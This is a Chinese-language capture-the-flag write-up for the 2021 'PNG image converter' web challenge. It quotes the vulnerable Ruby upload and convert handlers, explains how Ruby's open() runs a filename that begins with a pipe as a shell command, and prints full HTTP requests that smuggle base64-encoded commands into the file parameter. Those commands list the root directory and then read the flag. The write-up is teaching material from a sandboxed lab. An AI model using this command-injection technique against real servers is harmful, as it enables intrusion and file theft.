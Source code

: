 ::: info
2021-第五届空间智能安全大赛-Web-PNG图片转换器
:::

## 1、思路

（1）上传文件，没有限制文件类型，仅检查了文件扩展名是否为 png，但由于文件名取其摘要，无法通过一句话木马的方法获取 flag

```ruby
post '/upload' do
  unless params[:file] && params[:file][:tempfile] && params[:file][:filename] && params[:file][:filename].split('.')[-1] == 'png'
    return "<script>alert('error');location.href='/upload';</script>"
  end
  begin
    filename = Digest::MD5.hexdigest(Time.now.to_i.to_s + params[:file][:filename]) + '.png'
    open(filename, 'wb') { |f|
      f.write open(params[:file][:tempfile],'r').read()
    }
    "Upload success, file stored at #{filename}"
  rescue
    'something wrong'
  end

end
```

（2）转换文件，对符号 .. 和 / 进行了过滤，使用了不安全的函数 `open`，并输出 base64 编码的文件名

```ruby
post '/convert' do
  begin
    unless params['file']
      return "<script>alert('error');location.href='/convert';</script>"
    end

    file = params['file']
    unless file.index('..') == nil && file.index('/') == nil && file =~ /^(.+)\.png$/
      return "<script>alert('dont hack me');</script>"
    end
    res = open(file, 'r').read()
    headers 'Content-Type' => "text/html; charset=utf-8"
    "var img = document.createElement(\"img\");\nimg.src= \"data:image/png;base64," + Base64.encode64(res).gsub(/\s*/, '') + "\";\n"
  rescue
    'something wrong'
  end
end
```

（3）bp 截获请求报文，其中 file 的参数是文件名的 base64 编码，93511aa79635584bc1502b813fde80b7.png

```
POST /convert HTTP/1.1
Host: challenge-7157e81cd821f195.sandbox.ctfhub.com:10800
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-7157e81cd821f195.sandbox.ctfhub.com:10800
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge-7157e81cd821f195.sandbox.ctfhub.com:10800/convert
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

file=93511aa79635584bc1502b813fde80b7
```

## 2、文件名嵌入命令

### 文件名

由于输对文件名才会输出 `res = open(file, 'r').read()`，因此需要保证文件名的正确性

> file=93511aa79635584bc1502b813fde80b7.png

### 管道符

一个命令的输出可以通过管道作为另一个命令的输入

### 反引号

反引号间的内容会被 shell 先执行，其输出被放入主命令后，主命令再被执行

`ls -l`

⚠️ 由于对符号 .. 和 / 进行了过滤，可以先 base64 编码再解码 `echo bHMgLw== | base64 -d`（`-d` 解码，借助 `echo` 和管道符作为 base64 的参数）

> \`echo bHMgLw== | base64 -d` > 93511aa79635584bc1502b813fde80b7.png

即执行 `ls -l` 命令并将输出结果写入了 93511aa79635584bc1502b813fde80b7.png

### 赋值

> file=|\`echo bHMgLw== | base64 -d` > 93511aa79635584bc1502b813fde80b7.png

## 3、exp

（1）写入图片

```
POST /convert HTTP/1.1
Host: challenge-7157e81cd821f195.sandbox.ctfhub.com:10800
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-e1de38dc4ce1968f.sandbox.ctfhub.com:10800
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge-e1de38dc4ce1968f.sandbox.ctfhub.com:10800/convert
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

file=|`echo bHMgLw== | base64 -d`>93511aa79635584bc1502b813fde80b7
```

（2）读取图片执行命令

```
POST /convert HTTP/1.1
Host: challenge-7157e81cd821f195.sandbox.ctfhub.com:10800
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-e1de38dc4ce1968f.sandbox.ctfhub.com:10800
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge-e1de38dc4ce1968f.sandbox.ctfhub.com:10800/convert
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

file=93511aa79635584bc1502b813fde80b7
```

Response

```
HTTP/1.1 200 OK
Server: openresty/1.21.4.2
Date: Tue, 05 Mar 2024 01:58:09 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With
Access-Control-Allow-Methods: *
Content-Length: 204

var img = document.createElement("img");
img.src= "data:image/png;base64,YmluCmJvb3QKZGV2CmV0YwpmbGFnXzIxNDc5CmhvbWUKbGliCmxpYjY0Cm1lZGlhCm1udApvcHQKcHJvYwpyb290CnJ1bgpzYmluCnNydgpzeXMKdG1wCnVzcgp2YXIK";
```

解码结果

```
bin
boot
dev
etc
flag_21479
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

（3）读取图片执行命令

命令：`cat /flag_21479`

base64：Y2F0IC9mbGFnXzIxNDc5

```
POST /convert HTTP/1.1
Host: challenge-7157e81cd821f195.sandbox.ctfhub.com:10800
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-e1de38dc4ce1968f.sandbox.ctfhub.com:10800
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge-e1de38dc4ce1968f.sandbox.ctfhub.com:10800/convert
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

file=|`echo Y2F0IC9mbGFnXzIxNDc5 | base64 -d`>93511aa79635584bc1502b813fde80b7
```

Response

```
HTTP/1.1 200 OK
Server: openresty/1.21.4.2
Date: Tue, 05 Mar 2024 02:04:01 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With
Access-Control-Allow-Methods: *
Content-Length: 120

var img = document.createElement("img");
img.src= "data:image/png;base64,Y3RmaHViezRkZTc5NzI0Y2U5ZDYxMTRiM2RjOWE4MX0K";
```

解码结果

```
ctfhub{4de79724ce9d6114b3dc9a81}
```


